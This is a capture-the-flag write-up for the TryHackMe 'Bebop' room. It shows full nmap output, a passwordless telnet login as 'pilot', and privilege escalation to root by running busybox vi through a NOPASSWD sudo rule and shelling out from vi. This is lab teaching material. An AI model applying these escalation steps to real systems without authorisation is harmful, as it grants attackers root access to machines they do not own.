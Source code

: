 # THM: Bebop

| Stat | Value |
| ---------- | -------------------------------------------- |
| Image | <img src="/images/write_ups/try_hack_me/bebop/bebop.jpeg" alt="Bebop" width="90"/> |
| Room | Bebop |
| URL | https://tryhackme.com/room/bebop |
| Difficulty | Easy |

## Concepts/Tools Used

- telnet

## Room Description

Who thought making a flying shell was a good idea?

## Process

Once the machine starts up I save the machine's ip address to my host file so that I can type `target.thm` instead of an ip address.

I run nmap to see what ports are open:

```bash
$ nmap -T4 -n -sC -sV -Pn -v -p- target.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2025-07-22 11:06 BST
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:06
Completed NSE at 11:06, 0.00s elapsed
Initiating NSE at 11:06
Completed NSE at 11:06, 0.00s elapsed
Initiating NSE at 11:06
Completed NSE at 11:06, 0.00s elapsed
Initiating ARP Ping Scan at 11:06
Scanning target.thm (10.10.169.138) [1 port]
Completed ARP Ping Scan at 11:06, 0.03s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:06
Scanning target.thm (10.10.169.138) [65535 ports]
Discovered open port 23/tcp on 10.10.169.138
Discovered open port 22/tcp on 10.10.169.138
Increasing send delay for 10.10.169.138 from 0 to 5 due to max_successful_tryno increase to 5
SYN Stealth Scan Timing: About 8.82% done; ETC: 11:12 (0:05:21 remaining)
SYN Stealth Scan Timing: About 17.66% done; ETC: 11:12 (0:04:44 remaining)
SYN Stealth Scan Timing: About 26.51% done; ETC: 11:12 (0:04:12 remaining)
SYN Stealth Scan Timing: About 35.34% done; ETC: 11:12 (0:03:41 remaining)
SYN Stealth Scan Timing: About 44.11% done; ETC: 11:12 (0:03:11 remaining)
SYN Stealth Scan Timing: About 52.85% done; ETC: 11:12 (0:02:42 remaining)
SYN Stealth Scan Timing: About 61.40% done; ETC: 11:12 (0:02:13 remaining)
SYN Stealth Scan Timing: About 69.78% done; ETC: 11:12 (0:01:44 remaining)
SYN Stealth Scan Timing: About 78.40% done; ETC: 11:12 (0:01:15 remaining)
SYN Stealth Scan Timing: About 86.77% done; ETC: 11:12 (0:00:46 remaining)
Completed SYN Stealth Scan at 11:12, 346.69s elapsed (65535 total ports)
Initiating Service scan at 11:12
Scanning 2 services on target.thm (10.10.169.138)
Completed Service scan at 11:12, 0.02s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.169.138.
Initiating NSE at 11:12
Completed NSE at 11:12, 7.04s elapsed
Initiating NSE at 11:12
Completed NSE at 11:12, 0.01s elapsed
Initiating NSE at 11:12
Completed NSE at 11:12, 0.00s elapsed
Nmap scan report for target.thm (10.10.169.138)
Host is up (0.00033s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.5 (FreeBSD 20170903; protocol 2.0)
| ssh-hostkey: 
|   2048 5b:e6:85:66:d8:dd:04:f0:71:7a:81:3c:58:ad:0b:b9 (RSA)
|   256 d5:4e:18:45:ba:d4:75:2d:55:2f:fe:c9:1c:db:ce:cb (ECDSA)
|_  256 96:fc:cc:3e:69:00:79:85:14:2a:e4:5f:0d:35:08:d4 (ED25519)
23/tcp open  telnet  BSD-derived telnetd
MAC Address: 02:45:DA:EE:66:E9 (Unknown)
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

NSE: Script Post-scanning.
Initiating NSE at 11:12
Completed NSE at 11:12, 0.00s elapsed
Initiating NSE at 11:12
Completed NSE at 11:12, 0.00s elapsed
Initiating NSE at 11:12
Completed NSE at 11:12, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 355.73 seconds
           Raw packets sent: 66080 (2.908MB) | Rcvd: 65537 (2.621MB)
```

I see from the output that telnet is running on the machine. I ran the following to connect to the machine:

```bash
$ telnet target.thm
Trying 10.10.169.138...
Connected to target.thm.
Escape character is '^]'.
login: pilot
Last login: Sat Oct  5 23:48:53 from cpc147224-roth10-2-0-cust456.17-1.cable.virginm.net
FreeBSD 11.2-STABLE (GENERIC) #0 r345837: Thu Apr  4 02:07:22 UTC 2019

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
Man pages are divided into section depending on topic.  There are 9 different
sections numbered from 1 (General Commands) to 9 (Kernel Developer's Manual).
You can get an introduction to each topic by typing

	man <number> intro

In other words, to get the intro to general commands, type

	man 1 intro
```

Just like that, I have a shell on the machine. I look around to see where the user.txt file is:

```bash
$ whoami
pilot
$ ls
user.txt
$ cat user.txt
REDACTED
```

Now that I have the user.txt flag, I need to escalate my privileges to get the root.txt flag. I run my usual [privilege escalation commands](/concepts/privilege_escalation.md#linux-privilege-escalation) and `sudo -l` has something interesting:

```bash
$ sudo -l
User pilot may run the following commands on freebsd:
    (root) NOPASSWD: /usr/local/bin/busybox
```

I am not too familiar with busybox. I run the command to see what it does:

```bash
$ /usr/local/bin/busybox 
BusyBox v1.30.1 (2019-08-23 13:25:19 UTC) multi-call binary.
BusyBox is copyrighted by many authors between 1998-2015.
Licensed under GPLv2. See source distribution for detailed
copyright notices.

Usage: busybox [function [arguments]...]
   or: busybox --list
   or: function [arguments]...

	BusyBox is a multi-call binary that combines many common Unix
	utilities into a single executable.  Most people will create a
	link to busybox for each function they wish to use and BusyBox
	will act like whatever it was invoked as.

Currently defined functions:
	addgroup, ar, arch, ash, awk, base64, basename, bc, bunzip2, bzcat, bzip2, cal, cat, chgrp, chmod, chown,
	chroot, cksum, clear, cmp, comm, cp, cpio, crond, crontab, cttyhack, cut, dc, dd, delgroup, diff,
	dirname, dnsd, dos2unix, dpkg, dpkg-deb, du, echo, ed, env, expand, expr, factor, fakeidentd, fallocate,
	false, fatattr, find, flock, fold, fsync, ftpd, ftpget, ftpput, getopt, grep, groups, gunzip, gzip, hd,
	head, hexdump, hexedit, hostid, hostname, httpd, id, inetd, install, iostat, ipcalc, kill, killall,
	killall5, klogd, less, link, ln, logger, logname, logread, lpq, lpr, ls, lzcat, lzma, lzop, makemime,
	man, md5sum, microcom, mkdir, mkfifo, mknod, mktemp, more, mpstat, mv, nc, nice, nl, nmeter, nohup,
	nologin, nslookup, ntpd, nuke, od, paste, patch, pgrep, pidof, ping, ping6, pipe_progress, pkill, pmap,
	popmaildir, poweroff, printenv, printf, ps, pscan, pwd, pwdx, readlink, readprofile, realpath, reboot,
	reformime, renice, reset, resize, resume, rev, rm, rmdir, rpm, rpm2cpio, run-parts, scriptreplay, sed,
	sendmail, seq, setsid, sh, sha1sum, sha256sum, sha3sum, sha512sum, shred, shuf, sleep, smemcap, sort,
	split, ssl_client, stat, strings, stty, su, sulogin, sum, svok, sync, syslogd, tail, tar, tee, telnet,
	telnetd, test, tftp, tftpd, timeout, top, touch, tr, traceroute, traceroute6, true, truncate, tty,
	ttysize, uname, uncompress, unexpand, uniq, unix2dos, unlink, unlzma, unxz, unzip, usleep, uudecode,
	uuencode, vi, volname, watch, wc, wget, which, whoami, xargs, xxd, xz, xzcat, yes, zcat
```

So it looks like busybox is a wrapper for other binaries. I know that I can get a shell using vi and that is one of the binaries mentioned. So I run busybox with sudo and have it run vi so I can get a root shell:

```bash
sudo /usr/local/bin/busybox  vi
```

Inside of vi, I run the following command to generate a shell:

```bash
:!/bash/sh
```

It worked. I'm in! The cursor changed to the # character to let me know that I am root.

Now I grab the flag:

```bash
# whoami
root
# cd /root
# ls
.bash_history  .cshrc  .history  .k5login  .login  .profile  root.txt
# cat root.txt
REDACTED
```
